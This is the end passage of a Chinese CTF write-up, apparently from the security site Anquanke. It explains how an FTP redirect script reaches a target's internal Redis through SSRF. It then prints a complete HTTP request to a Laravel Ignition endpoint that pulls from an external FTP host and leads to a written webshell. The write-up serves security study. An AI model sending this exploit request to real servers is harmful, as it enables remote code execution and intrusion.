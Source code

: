 
这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 Payload；当客户端第二次连接的时候将客户端的连接重定向到
127.0.0.1:6379，也就是目标主机上 Redis 服务的端口，从而造成 SSRF，攻击其 Redis。

运行 ftp_redirect.py：

然后发送请求就行了：

    
    
    POST /_ignition/execute-solution HTTP/1.1
    Host: 192.168.41.107:8077
    Content-Type: application/json
    Content-Length: 190
    
    {
      "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
      "parameters": {
        "variableName": "username",
        "viewFile": "ftp://aaa@47.101.57.72:23/123"
      }
    }
    

执行后，成功写入 Webshell，然后读取 flag 就行了：

本文由 **Mockingjay** 原创发布  
转载，请参考[转载声明](/note/repost)，注明出处：
[https://www.anquanke.com/post/id/254387](/post/id/254387)  
安全客 - 有思想的安全新媒体

[CTF](/tag/CTF) [Web安全](/tag/Web安全) __ 赞 __收藏

[ Mockingjay ](/member/149480)

分享到： ![QQ空间](https://p0.ssl.qhimg.com/sdm/28_28_100/t014ba42aad7714178d.png)
![新浪微博](https://p0.ssl.qhimg.com/sdm/28_28_100/t01f0d8694dda79069d.png)
![微信](https://p0.ssl.qhimg.com/sdm/28_28_100/t01e29062a5dcd13c10.png)
![QQ](https://p0.ssl.qhimg.com/sdm/28_28_100/t010d95bee6ba3edf60.png)
![facebook](https://p0.ssl.qhimg.com/sdm/28_28_100/t01a5e75c16cffcb0ba.png)
![twitter](https://p0.ssl.qhimg.com/sdm/28_28_100/t01fc30c819f51e9cff.png)

|推荐阅读

[ ![](https://p3.ssl.qhimg.com/sdm/229_160_100/t01ba7b64adcc8674d4.png)

###### 延迟绑定原理 与 ret2dlresolve分析

2021-10-22 17:30:49 ](/post/id/254779)

[ ![](https://p5.ssl.qhimg.com/sdm/229_160_100/t01cd90e3a3c3ddae39.jpg)

###### 64位静态程序fini的劫持

2021-10-22 16:30:12 ](/post/id/254520)
